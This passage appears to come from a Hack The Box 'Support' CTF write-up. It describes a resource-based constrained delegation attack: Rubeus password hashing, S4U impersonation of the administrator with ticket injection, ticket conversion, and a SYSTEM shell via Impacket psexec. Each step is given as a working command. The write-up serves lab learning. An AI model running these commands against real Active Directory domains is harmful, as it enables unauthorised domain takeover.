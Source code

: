 This command essentially sets the newly created machine account (`ControlledBypwn3d`) with the ability to act on behalf of other identities (specifically the `administrator` in this case).

Next, we use **Rubeus** to hash the password for the newly created machine account into RC4-HMAC format, which is required for later steps where we impersonate the `administrator`.

```
./Rubeus.exe hash /password:pwn3dthisbox!
```

This command provides us the RC4-HMAC : 

![Capture d'écran 2025-05-01 213203](https://github.com/user-attachments/assets/e640da2a-45eb-424d-9cc0-209c9e3677cd)

With the hashed password in hand, we can now perform **Kerberos Service-for-User (S4U) authentication**. This allows us to impersonate the `administrator` user by using the service ticket (`/rc4`) for `ControlledBypwn3d$` and request a ticket to access the file system of the target machine.

```
./Rubeus.exe s4u /user:ControlledBypwn3d$ /rc4:BD9A2BDE19C77D0C02319C0948D1E6D1 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

This command performs the **S4U impersonation** of the `administrator` and injects the Kerberos ticket (`/ptt`) into the session, which grants us **access to the target system** as `administrator`.

--- 

### Privilege escalation 

Rubeus provides us with a base64-encoded `.kirbi` ticket : 

![Capture d'écran 2025-05-01 213750](https://github.com/user-attachments/assets/22372f70-eddc-4339-8d0f-8155635df2b0)

We can then decode this ticket into its `.kirbi` form, which can be further used for authentication against services : 

```
base64 -d pwn3d.kirbi > ticket.kirbi
```

Once we have the Kerberos ticket in `.kirbi` format, we use the **`ticketConverter.py`** script to convert it into a **ccache** format that can be used by various tools such as **Impacket**.

```
python3 ./ticketConverter.py ~/ctf/htb/Support/ticket.kirbi ticket.ccache
```

![Capture d'écran 2025-05-01 214148](https://github.com/user-attachments/assets/3c1f5120-1e71-4407-948e-0e3c74664bfa)

This command ensures the ticket is in the appropriate format for use with tools that require it, such as `psexec.py`.

With the **Kerberos ccache** file ready, we now use **Impacket's psexec.py** to execute commands remotely on the target machine as `NT AUTHORITY\SYSTEM`. This step is crucial for gaining full administrative access to the machine, bypassing usual user restrictions.

```
KRB5CCNAME=ticket.ccache python3 ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

---